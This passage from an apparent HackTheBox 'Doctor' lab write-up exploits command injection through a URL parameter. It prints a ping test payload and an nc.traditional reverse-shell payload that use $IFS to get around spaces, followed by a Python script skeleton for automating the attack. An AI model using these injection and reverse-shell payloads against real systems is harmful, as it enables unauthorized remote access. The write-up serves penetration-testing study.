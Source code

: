 ```sh
http://10.10.14.20/$(ping$IFS-c$IFS'1'$IFS'10.10.14.20')
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2007:46:21.png)

Now let's get a reverse shell on it, shell wich `nc.traditional`

```sh
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.20'$IFS'5555')
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2007:52:42.png)

To make the things better to debug, we should put a ssh key into the server also.

Now, we got the reverse shell with it, let's automate using script

### Scripting

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for the app', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-03-HackTheBox-Doctor/2021-09-03-HackTheBox-Doctor%2008:21:20.png)

doctor_command_injection.py
